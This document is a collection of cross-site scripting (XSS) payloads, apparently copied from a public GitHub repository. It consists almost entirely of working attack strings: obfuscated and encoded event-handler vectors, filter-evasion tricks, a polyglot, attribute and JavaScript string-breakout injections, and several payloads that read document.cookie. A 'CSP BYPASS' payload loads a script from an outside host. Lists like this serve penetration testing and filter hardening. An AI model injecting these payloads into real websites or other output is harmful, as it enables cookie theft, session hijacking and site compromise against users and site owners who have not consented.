 #############################################################
#  XSS-Payloads   https://github.com/RenwaX23/XSS-Payloads  #
#             https://twitter.com/RenwaX23                  #
#############################################################


<AuDiO/**/oNLoaDStaRt='(_=/**/confirm/**/(1))'/src><!--x

<mArquee onStart=[~[onmouseleave(([[(alert(1))]]))]] ]

<img src="/" =_=" title="onerror='/**/prompt(1)'">

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<a/onmousemove=alert(1)//>xss

<object allowscriptaccess=always><param name=code value=https://l0.cm/xss.swf>

<svg+onload=eval(location.hash.substr(1))>#alert(1)

<details/open/ontoggle=confirm('XSS')>

</script><svg><script>alert(1)/&apos;

<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;// 

<svg </onload ="1> (_=prompt,_(1)) "">

<svg 1=""onload=alert(1)>

<output name="jAvAsCriPt://&NewLine;\u0061ler&#116(1)" onclick="eval(name)">X</output>

<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;23&rpar;&gt;" />

<button onmousemove="javascript:alert(1)">xss

<BoDy%0AOnpaGeshoW=+window.prompt(1)

<a href=[0x0b]xss" onfocus=prompt(1) autofocus fragment="

<isindex type=image src=1 onerror=alert(1)>

<script>a=eval;b=alert;a(b(/ 1/.source));</script>'">

<!'/!"/!\'/\"/--!><Input/Type=Text AutoFocus */; OnFocus=(confirm)(1) //>

<style><img src="</style><img src=x "><object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

<embed src=/x//alert(1)><base href="javascript:\

\u003csvg/onload=alert`1`\u003e

\<svg/onload=alert`1`\>

<article xmlns ="urn:img src=x onerror=xss()//" >xss

i\{\<\/\s\t\y\le\>\<\i\m\g\20\o\ne\r\r\o\r\=\'a\le\r\t\(d\oc\u\me\nt\.c\o\o\kie\)\'\s\rc\=\'eeeeeee\'\20\>{

<img / src = \ 'dfdfd \' // onerror = \ 'alert (document.cookie) \ '>

<img/src=q onerror='new Function`al\ert\`OPENBUGBOUNTY\``'>

<Html Onmouseover=(alert)(1) //

<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>

<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>

&#x003c;img src=1 onerror=confirm(1)&#x003e;

%26%23x003c%3Bimg%20src%3D1%20onerror%3Dalert(1)%26%23x003e%3B%0A

x%22%3E%3Cimg%20src=%22x%22%3E%3C!--%2522%2527--%253E%253CSvg%2520O%256ELoad%253Dconfirm%2528/xss/%2529%253E

<embed src=/x//alert(1)><base href="javascript:\

<x+oncut=y=prompt,y`1`>xss

<svG x=">" onload=(co\u006efirm)``>

<script/xss~~~>;alert(1);</script/X~~~>

<VideO/**/OnerroR=~alert("1")+/SrC>

<video/poster/onerror=prompt(1)>

<sVG/xss/OnLoaD+="window['confirm']+(1)">

<img x/src=x /onerror="x-\u0063onfirm(1)">

<VidEo/oNLoaDStaRt=confirm(1)+/src>

<video/src=//w3schools.com/tags/movie.mp4%0Aautoplay/onplay=(confirm(1))>

<p/%0Aonmouseover%0A=%0Aconfirm(1)>xss

<span/onmouseover=confirm(1)>xss

<iframe/name="javascript:confirm(1);"onload="while(1){eval(name);}">

<svg/onload=window.onerror=alert;throw/XSS/;//

<object data='data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=' /src>

<InpuT/**/onfocus=pr\u006fmpt(1)%0Aautofocus>xss

<img src="x:alert" onerror="eval(src%2b'(1)')">

<img/src=xss%0A/**/onerror=eval('al'%2b'ert(1)')>

<img/alt=1 onerror=eval(src) src=x:alert(alt) >

<isindex/**/alt=1+src=xss:window['alert']/**/(alt)+type=image+onerror=while(true){eval(src)}>

<input type="text" name="foo" value=""autofocus/onfocus=alert(1)//">

<math href="javascript:alert(1)">CLICKME

<var onmouseover="prompt(1)">xss</var>

<h1/onmouseover='alert(1)'>xss

<object data="javascript:alert(1)">

<--'<script>window.confirm(1)</script> --!>

<div onmouseover=prompt("1")>xss

<img src=x onerror=window.open('data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=');>

<plaintext/onmousemove=prompt(1)>xss

<marquee/onstart=alert(1)>xss

<embed src=javascript:alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<div/onmouseover='alert(1)'>xss

<svg/onload=document.location.href='https://google.com'>

<audio src=x onerror=confirm("1")>

<iframe src="data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4="/>

<img%09onerror=alert(1) src=a>

<i onclick=alert(1)>Click here</i>

<img src=<b onerror=alert('xss');>

<img src="x:? title=" onerror=alert(1)//">

<img src="x:gif" onerror="eval('al'%2b'ert(/xss/)')">

<img src="x:gif" onerror="window['al\u0065rt'] (/'xss'/)"></img> 

<a onmouseover%3D"alert(1)">xss

<script/%00%00v%00%00>alert(/xss/)</script>

<svg/onload=document.location.href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>

<script>$=1,alert($)</script>

<svg•onload=alert(1)>

<h1/onmouseover='alert(1)'>xss

<video onerror=alert(1337) </poster>

<input onfocus=alert(1337) </autofocus>


CSP BYPASS:

<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


POLYGLOT:

javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


HYPERLINK TAG INJECTION:

javascript:alert(1)

javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")

javascript://%250Aalert(document.cookie)

javascripT://https://google.com%0aalert(1);//https://google.com

/x:1/:///%01javascript:alert(document.cookie)/


INLINE HTML INJECTION WITHOUT TAG BREAK:

" onclick=alert(1)//">click

" autofocus onfocus=alert(1) "

" onfocus=prompt(1) autofocus fragment="

" onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


JAVASCRIPT INJECTION:

'?prompt`1`?'

"])},alert(1));(function xss() {//

""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y

"}]}';alert(1);{{'

11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1

\');confirm(1);//

x");$=alert, $(1);//

'|alert(1)|'

'*prompt(1)*'

"; ||confirm('XSS') || "

"-alert(1)-"

\'-alert(1)};{//

"'-alert(1)-'"

\u0027-confirm`1`-\u0027 

'}};alert(1);{{'

